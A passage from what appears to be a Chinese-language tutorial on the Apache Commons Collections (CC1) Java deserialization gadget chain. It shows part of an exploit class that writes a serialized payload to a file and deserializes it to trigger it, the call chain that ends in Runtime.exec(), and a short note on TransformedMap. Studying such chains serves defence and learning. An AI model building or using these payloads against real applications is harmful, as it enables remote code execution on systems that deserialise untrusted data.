 ```java
        Object instance = ctor.newInstance(Retention.class, outmap);
        return instance;
    }

    public static void main(String[] args) throws Exception {
        payload2File(generatePayload(),"obj");
        payloadTest("obj");
    }
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

## 调用链

```
ObjectInputStream.readObject()
            AnnotationInvocationHandler.readObject()
              	MapEntry.setValue()
               		TransformedMap.checkSetValue()
                            ChainedTransformer.transform()
                                ConstantTransformer.transform()
                                InvokerTransformer.transform()
                                    Method.invoke()
                                        Class.getMethod()
                                InvokerTransformer.transform()
                                    Method.invoke()
                                        Runtime.getRuntime()
                                InvokerTransformer.transform()
                                    Method.invoke()
                                        Runtime.exec()
```



## TransformedMap

TransformedMap⽤于对Java标准数据结构Map做⼀个修饰，被修饰过的Map在添加新的元素时，将可以执⾏⼀个回调。

![image-20210713122743898](CC链学习-上/image-20210713122743898.png)
